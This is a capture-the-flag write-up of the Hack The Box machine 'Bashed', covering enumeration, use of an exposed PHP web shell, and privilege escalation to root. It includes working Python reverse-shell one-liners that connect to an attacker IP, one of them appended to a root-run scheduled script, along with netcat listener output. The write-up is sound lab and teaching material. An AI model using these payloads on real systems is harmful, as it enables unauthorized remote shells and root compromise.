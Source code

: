 ```yaml
---
title: Hack The Box - Bashed (Without Metasploit)
date: 2021-01-09 19:28:00 +0800
categories: [hackthebox]
tags: [linux, python]
---
```


![](/assets/images/bashed.png){:height="414px" width="615px"}

# Configuration

The operating system that I will be using to tackle this machine is a Kali Linux VM.

What I learnt from other writeups is that it was a good habit to map a domain name to the machine's IP address so as that it will be easier to remember. This can done by appending a line to `/etc/hosts`.

```bash
$ echo "10.10.10.68 bashed.htb" | sudo tee -a /etc/hosts
```

# Reconnaissance

```bash 
$ nmap -sT -sV -sC -Pn bashed.htb
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-08 15:27 EST
Nmap scan report for bashed.htb (10.10.10.68)
Host is up (0.0060s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.94 seconds
```

# Enumeration (1)

## Port 80 `Apache httpd 2.4.18 ((Ubuntu))`

![](/assets/images/bashed1.png)

This looks like someone's blog. In the post, it talked about a web shell called `php-bash` and judging from the screenshot, it is located at `/uploads/phpbash.php but unfortunately it wasn't there. Lets bruteforce some directorys.

```bash
$ gobuster dir -k -u http://bashed.htb/ -w /usr/share/wordlists/dirb/common.txt -t 20 -x .html,.php,.cgi,.sh,.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://bashed.htb/
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php,cgi,sh,txt
[+] Timeout:        10s
===============================================================
2021/01/09 05:32:01 Starting gobuster
===============================================================
...
/about.html (Status: 200)
/config.php (Status: 200)
/contact.html (Status: 200)
/css (Status: 301)
/dev (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/index.html (Status: 200)
/js (Status: 301)
/php (Status: 301)
/server-status (Status: 403)
/single.html (Status: 200)
/uploads (Status: 301)
===============================================================
2021/01/09 05:32:11 Finished
===============================================================
```

The `/dev` folder seems interesting.

![](/assets/images/bashed2.png)

If we click on the `phpbash.php` link, we are brought to the webshell!

![](/assets/images/bashed3.png)

# user.txt

Despite being the `www-data` user, we can access the user flag in the home directory of `arrexel`.

![](/assets/images/bashed4.png)

# Enumeration (2)

As `www-data`, we could run any commmands as `scriptmanager` using `sudo` but `scriptmanager` did not belong to any administrative group so perhaps it will come in useful later on.

![](/assets/images/bashed5.png)

Before performing further enumeration, lets upgrade to a better shell using `python`.

```bash
www-data@bashed:/var/www/html/dev# python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket. SOCK_STREAM);s.connect(("10.10.14.12",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

```bash
$ sudo rlwrap nc -vlnp 9999
[sudo] password for kali: 
listening on [any] 9999 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.68] 38960
www-data@bashed:/$
```

In the root directory, there was a folder called `/scripts`, and inside were 2 files.

```bash
www-data@bashed:/$ ls -al /scripts
ls: cannot access '/scripts/..': Permission denied
ls: cannot access '/scripts/test.py': Permission denied
ls: cannot access '/scripts/test.txt': Permission denied
ls: cannot access '/scripts/.': Permission denied
total 0
d????????? ? ? ? ?            ? .
d????????? ? ? ? ?            ? ..
-????????? ? ? ? ?            ? test.py
-????????? ? ? ? ?            ? test.txt
```

We are unable to access it. However, the folder belonged to `scriptmanager` so lets spawn a shell as `scriptmanager` and view the contents of the folder.

```bash
www-data@bashed:/$ ls -al /scripts
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jan  9 03:10 test.txt
www-data@bashed:/$ cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
www-data@bashed:/$ cat /scripts/test.txt
testing 123!
```

The `test.txt` is owned by `root`, modified recently and had contents matching the output of `test.py` if ran. This shows that `root` might be scheduled to run `test.py` regularly and if we can inject a reverse shell code into it, we might be able to establish as `root`!

# Exploitation 

```bash
www-data@bashed:/$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket. SOCK_STREAM);s.connect(("10.10.X.X",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' >> /scripts/test.py
```

After a while, we get a connection on our `nc` listener that we setup beforehand.

```bash
$ sudo rlwrap nc -vlnp 1337
[sudo] password for kali: 
listening on [any] 1337 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.68] 50256
root@bashed:/scripts# id
uid=0(root) gid=0(root) groups=0(root)
```

# root.txt

The root flag is located at `/root` as always.

```bash
root@bashed:/scripts# cat /root/root.txt
cc4fXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```


### Rooted ! Thank you for reading and look forward for more writeups and articles !